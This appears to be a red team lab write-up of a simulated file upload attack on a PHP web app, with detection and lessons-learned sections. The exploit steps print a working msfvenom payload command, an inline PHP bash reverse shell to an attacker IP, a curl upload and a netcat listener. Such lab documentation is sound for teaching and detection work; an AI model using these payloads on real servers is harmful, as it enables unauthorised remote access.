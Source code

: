 # Simulated File Upload RCE Attack – Red Team Lab

This red team lab simulates a file upload vulnerability that leads to remote code execution (RCE). This attack was carried out in a controlled environment and documented for education and detection development purposes.

---

## Lab Setup

- Target: Vulnerable PHP web app running on Apache
- Attacker Box: Kali Linux
- Network: Isolated lab with DHCP
- Tools Used: Burp Suite, curl, nc (netcat)

---

## Attack Summary

1. Attacker discovers the file upload endpoint does not properly validate file type.
2. A `.php` reverse shell is uploaded using Burp Suite.
3. The shell is triggered remotely by navigating to the uploaded file.
4. Attacker gains remote access and runs commands as `www-data`.

---

## Exploit Steps

1. Crafting the Payload

Command:
msfvenom -p php/reverse_php LHOST=192.168.1.200 LPORT=4444 -f raw > shell.php

Alternatively, use a simple PHP reverse shell:

<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.200/4444 0>&1'");
?>

---

2. Uploading the Shell

Command:
curl -F "file=@shell.php" http://target.local/upload.php

---

3. Trigger the Shell

Start a listener:
nc -lvnp 4444

Then visit in a browser:
http://target.local/uploads/shell.php

---

## Observed Artifacts

- Upload Path Accessed: /uploads/shell.php
- Process Spawned: /bin/bash -c ... from apache2 process
- Network Connection: Reverse shell from web server to attacker IP

---

## Detection Opportunities

Web logs:
- Look for uploads of .php, .jsp, .asp

Process logs:
- Apache or nginx spawning bash or powershell

Network logs:
- Outbound connection from web servers to unknown IPs

EDR/AV:
- Command execution triggered via PHP process

---

## Lessons Learned

- File upload flaws can lead to RCE if not properly validated
- Content inspection is more effective than extension checking
- Network and endpoint monitoring are key to spotting post-exploitation

---

This simulation was performed in a private lab using intentionally vulnerable code. No real systems or clients were targeted.

